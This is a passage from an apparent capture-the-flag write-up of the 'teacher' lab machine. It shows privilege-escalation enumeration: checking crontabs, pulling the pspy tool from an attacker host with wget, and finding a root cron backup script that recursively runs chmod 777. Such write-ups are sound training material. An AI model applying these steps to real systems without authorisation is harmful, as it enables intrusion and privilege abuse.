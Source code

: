 ```
giovanni@teacher:~/work$ crontab -l
crontab -l
no crontab for giovanni

giovanni@teacher:~/work$ crontab -u root -l
crontab -u root -l
must be privileged to use -u
```

Can't see the cronjob running. Let's use pspy to see it ! Start python server :

```
python -m simpleHTTPServer
```

Upload it to the machine :

```
wget http://10.10.14.4:8000/pspy64
```

Run it :

```
chmod +x pspy64
./pspy64
```

![Pspy](/assets/imgs/teacher/pspy.PNG)

Here's the script which is running every minute :

```
/bin/bash /usr/bin/backup.sh
tar -czvf tmp/backup_courses.tar.gz courses/algebra
```

The backup script :

```
giovanni@teacher:~/work/courses$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
